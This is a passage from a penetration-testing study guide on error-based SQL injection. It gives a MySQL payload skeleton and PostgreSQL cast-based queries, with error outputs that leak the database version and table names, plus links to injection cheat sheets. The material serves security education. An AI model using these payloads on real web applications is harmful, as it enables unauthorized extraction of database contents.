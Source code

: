       3 rows in set (0.00 sec)
      ```

The following statement in a skeleton you can use to create your MySQL error-based injections:
  ```
  SELECT 1,2 UNION SELECT COUNT(*), CONCAT(<information to extract>, floor(rand(0)*2)) AS x FROM information_schema.tables GROUP BY x;
  ```

  Example:
  To extract the database version (*4.5.43-0+deb7u1* in this example) you can use:
      ```
      mysql> SELECT COUNT(*), CONCAT(version(), floor(rand(0)*2)) AS x FROM information_schema.tables GROUP BY x;
      ERROR 1062 (23000): Duplicate entry '4.5.43-0+deb7u1' for key 'group_key'
      ```

#### 4.4.3. PostgreSQL Error-Based SQLi Exploitation
  To exploit a SQLi on a web application using **PostgreSQL**, you have to leverage the cast technique we saw for MSSQL.
    Example:
    You can use this technique to extract the DB version:
      ```
      # select cast(version() as numeric);
      ERROR: invalid input syntax for type numeric: "PostgreSQL 9.1.15 on x86_64-unknown-linux-gnu, compiled by gcc (Debian 4.7.2-5) 4.7.2, 64-bit"
      ```
    Or the tables, by iterating over the *information_schema* special database:
      ```
      dbname=# select cast((select table_name from information_schema.tables limit 1 offset 0) as numeric);
      ERROR: invalid input syntax for type numeric: "pg_statistics"
      dbname=# select cast((select table_name from information_schema.tables limit 1 offset 1) as numeric);
      ERROR: invalid input syntax for type numeric: "pg_type"
      dbname=# select cast((select table_name from information_schema.tables limit 1 offset 2) as numeric);
      ERROR: invalid input syntax for type numeric: "pg_attribute"
      ```

To exploit an Error-based SQL injection you need the techniques and payload skeletons we have seen in this chapter and you have to study how different DBMS functions work.

You can refer the to the following cheat sheets by *PentestMonkey* to craft your payloads:
- [MSSQL Injection Cheat Sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
- [MySQL Injection Cheat Sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)
- [PostgreSQL Injection Cheat Sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet)

____________________________________________________
## 4.5. Exploiting Blind SQL Injection
**Blind SQLi exploitation** is an inference methodology you can to extract database schemas and data.
